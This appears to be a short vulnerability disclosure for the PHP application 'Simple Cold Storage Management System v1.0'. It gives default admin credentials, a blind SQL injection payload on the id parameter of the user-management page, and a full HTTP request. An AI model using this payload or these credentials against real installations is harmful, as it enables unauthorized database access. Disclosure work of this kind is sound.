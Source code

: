 # Simple Cold Storage Management System v1.0 by oretnom23 has SQL injection

BUG_Author: Tr0e

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/15088/simple-cold-storage-management-system-using-phpoop-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /csms/admin/?page=user/manage_user&id=

Vulnerability location: /csms/admin/?page=user/manage_user&id=, id

dbname =csms_db,length=7

[+] Payload: /csms/admin/?page=user/manage_user&id=3%27%20and%20length(database())%20=%207--+  // Leak place ---> id

```sql
GET /csms/admin/?page=user/manage_user&id=3%27%20and%20length(database())%20=%207--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=d8pesjl7i2jtmf2qddggbp7q0b
Connection: close
```

length=6
![image](https://user-images.githubusercontent.com/54017627/191015524-c0b7221f-a07d-40e3-9887-923a6eb57ba4.png)


length=7
![image](https://user-images.githubusercontent.com/54017627/191015564-bd3a22b1-75f9-4727-a30b-4708a29c673f.png)
